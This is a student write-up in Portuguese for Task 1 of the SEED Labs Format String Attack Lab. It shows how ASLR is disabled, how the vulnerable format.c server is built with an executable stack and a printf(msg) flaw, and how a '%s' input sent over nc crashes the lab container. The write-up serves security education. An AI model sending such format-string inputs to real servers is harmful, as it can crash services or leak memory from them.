 # SEED Labs - Format String Attack Lab

## Task 1

Primeiro, fazemos o setup do ambiente.

```
[11/07/22]seed@VM:~/.../Labsetup$ sudo sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
[11/07/22]seed@VM:~/.../Labsetup$ cd server-code/
[11/07/22]seed@VM:~/.../server-code$ make
gcc -o server server.c
gcc -DBUF_SIZE=100 -z execstack  -static -m32 -o format-32 format.c
format.c: In function ‘myprintf’:
format.c:44:5: warning: format not a string literal and no format arguments [-Wformat-security]
   44 |     printf(msg);
      |     ^~~~~~
gcc -DBUF_SIZE=100 -z execstack  -o format-64 format.c
format.c: In function ‘myprintf’:
format.c:44:5: warning: format not a string literal and no format arguments [-Wformat-security]
   44 |     printf(msg);
      |     ^~~~~~
[11/07/22]seed@VM:~/.../server-code$ make install
cp server ../fmt-containers
cp format-* ../fmt-containers
[11/07/22]seed@VM:~/.../server-code$ docker-compose build
Building fmt-server-1
Step 1/6 : FROM handsonsecurity/seed-ubuntu:small
 ---> 1102071f4a1d
Step 2/6 : COPY server    /fmt/
 ---> Using cache
 ---> 80c72cf9a22f
Step 3/6 : ARG ARCH
 ---> Using cache
 ---> f9239525378c
Step 4/6 : COPY format-${ARCH}  /fmt/format
 ---> Using cache
 ---> c4d0d16c1058
Step 5/6 : WORKDIR /fmt
 ---> Using cache
 ---> 88c7018ea532
Step 6/6 : CMD ./server
 ---> Using cache
 ---> 51e6ef51b72d

Successfully built 51e6ef51b72d
Successfully tagged seed-image-fmt-server-1:latest
Building fmt-server-2
Step 1/6 : FROM handsonsecurity/seed-ubuntu:small
 ---> 1102071f4a1d
Step 2/6 : COPY server    /fmt/
 ---> Using cache
 ---> 80c72cf9a22f
Step 3/6 : ARG ARCH
 ---> Using cache
 ---> f9239525378c
Step 4/6 : COPY format-${ARCH}  /fmt/format
 ---> Using cache
 ---> 5bca17c905f0
Step 5/6 : WORKDIR /fmt
 ---> Using cache
 ---> 18e7c4bac7bb
Step 6/6 : CMD ./server
 ---> Using cache
 ---> cba6ae2644c3

Successfully built cba6ae2644c3
Successfully tagged seed-image-fmt-server-2:latest
[11/07/22]seed@VM:~/.../server-code$ docker-compose up
Starting server-10.9.0.5 ... done
Starting server-10.9.0.6 ... done
Attaching to server-10.9.0.5, server-10.9.0.6
```  

Vamos escrever no standard input a string "%s". A função `myprintf` vai chamar o equivalente a:
```c
 printf("%s");
 ```
Fazer esta chamada, sem passar os argumentos necessários à função `printf`, faz com que o programa trate um endereço na stack como um endereço onde uma string deveria estar guardada. O mais provável é que não seja possível ler uma string, levando o programa a terminar indevidamente.
```
[11/07/22]seed@VM:~/.../Labsetup$ echo %s | nc 10.9.0.5 9090
```

- Output do container:
```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd0f0
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 3 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd018
server-10.9.0.5 | The target variable's value (before): 0x11223344
```

Não é imprimida nenhuma mensagem de retorno, pelo que presupomos que o programa terminou sem retornar devidamente.

# CTF
